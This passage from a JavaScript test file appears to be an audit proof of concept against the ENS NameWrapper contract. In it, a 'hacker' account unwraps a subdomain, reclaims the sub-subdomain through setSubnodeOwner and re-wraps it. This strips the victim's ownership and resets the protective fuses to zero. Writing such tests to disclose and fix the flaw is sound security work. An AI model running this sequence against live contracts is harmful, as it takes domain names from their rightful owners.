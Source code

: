 ```javascript
      ).to.equal(PARENT_CANNOT_CONTROL)

      // the user sets a very strict fuse for the wrappedSubSubTokenId
      await NameWrapperV.setFuses(wrappedSubSubTokenId, 127 - PARENT_CANNOT_CONTROL) // 63
      expect((await NameWrapper.getFuses(wrappedSubSubTokenId))[0]).to.equal(127)

      // the hacker unwraps his wrappedSubTokenId
      await NameWrapperH.unwrap(wrappedTokenId, subLabelHash, hacker)
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(hacker)

      // the hacker setSubnodeOwner, to set the owner of wrappedSubSubTokenId as himself
      await EnsRegistryH.setSubnodeOwner(wrappedSubTokenId, subSubLabelHash, hacker)
      expect(await EnsRegistry.owner(wrappedSubSubTokenId)).to.equal(hacker)

        // the hacker re-wrap the sub sub node
      await EnsRegistryH.setApprovalForAll(NameWrapper.address, true)
      await NameWrapperH.wrap(encodeName(subSubDomain), hacker, EMPTY_ADDRESS)

      // ///////////////////////////
      // // Attack successed!
      // ///////////////////////////

      // XXX: [1] the owner of wrappedSubTokenId transfer from the victim to the hacker
      // XXX: [2] the fuses of wrappedSubTokenId becomes 0 from full-protected
      expect(await NameWrapper.ownerOf(wrappedSubSubTokenId)).to.equal(hacker)
      expect((await NameWrapper.getFuses(wrappedSubSubTokenId))[0]).to.equal(0)
    })
  })
})
```

